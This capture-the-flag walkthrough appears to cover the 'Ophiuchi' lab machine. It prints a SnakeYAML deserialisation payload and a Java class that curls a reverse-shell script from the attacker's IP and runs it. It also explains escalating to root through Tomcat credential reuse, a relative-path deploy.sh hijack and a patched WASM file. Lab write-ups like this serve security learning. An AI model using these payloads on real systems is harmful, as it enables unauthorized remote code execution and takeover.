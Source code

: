 # Ophiuchi

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

### YAML Parser

Port 8080 was running an application that handles YAML input.

<figure><img src="../../../.gitbook/assets/image (50) (1).png" alt=""><figcaption></figcaption></figure>

This was obviously a deserialisation exploit, where the application handles user input without sanitsation and it can lead to code execution. Googling for this led me to this repository.

{% embed url="https://github.com/mbechler/marshalsec" %}

Based on the PoC, we can first test whether the parser is able to send requests to our host using this script:

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://VPN_IP/yaml-payload.jar"]
  ]]
]
```

And it does indeed work.

<figure><img src="../../../.gitbook/assets/image (48) (3).png" alt=""><figcaption></figcaption></figure>

We then need to use this bit of code here to make the machine download a reverse shell and execute it.

```java
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl http://10.10.16.9/rev.sh -o /tmp/rev.sh");
            Runtime.getRuntime().exec("bash /tmp/rev.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```

After editing this code, we need to compile it to a JAR file using these:

```bash
javac AwesomeScriptEngineFactory.java 
jar -cvf AwesomeScriptingEngineFactory.jar -C src/ .
```

This would create a JAR file. Then, we can make the machine download the JAR file using the same method as above to receive callback. This would trigger the command and our listener port would receive a reverse shell as `tomcat`.&#x20;

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Tomcat Credentials

Since we are `tomcat`, we should look into the configurations for the Tomcat interface. This can be found within `~/conf/tomcat-users.xml`.

<figure><img src="../../../.gitbook/assets/image (52) (1).png" alt=""><figcaption></figcaption></figure>

We can try an `su` to the `admin` user and find that it works with this password.

<figure><img src="../../../.gitbook/assets/image (67).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges

Since we have the password, we can check for `sudo` privileges.

<figure><img src="../../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

Seems that we can run `go` on a certain script:

```go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
        init := instance.Exports["info"]
        result,_ := init()
        f := result.String()
        if (f != "1") {
                fmt.Println("Not ready to deploy")
        } else {
                fmt.Println("Ready to deploy")
                out, err := exec.Command("/bin/sh", "deploy.sh").Output()
                if err != nil {
                        log.Fatal(err)
                }
                fmt.Println(string(out))
        }
}
```

The `deploy.sh` does not have absolute path, so we can create our own script to get a `root` shell. However, before running that, the script seems to check `main.wasm` and only runs `deploy.sh` if it returns 1.&#x20;

Running the script does not work no matter what for now, so let's investigate `main.wasm`. WASM is short for Web Assembly, and we can download and decompile the file here:

{% embed url="https://wasdk.github.io/WasmFiddle/" %}

This would allow us to see the code that is present. Alternatively, we can use `wasm-decompile` to read it.

```
export memory memory(initial: 16, max: 0);

global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 0
}
```

The above code seems to do nothing but return 0, so we need to change that 0 to a 1. We can count the bytes and change the byte accordingly using `dd`.&#x20;

<figure><img src="../../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can create a `deploy.sh` file that adds our public key into the `/root/.ssh/authorized_key` folder and run the `sudo` command.

This would allow us to SSH in as `root`.

<figure><img src="../../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>
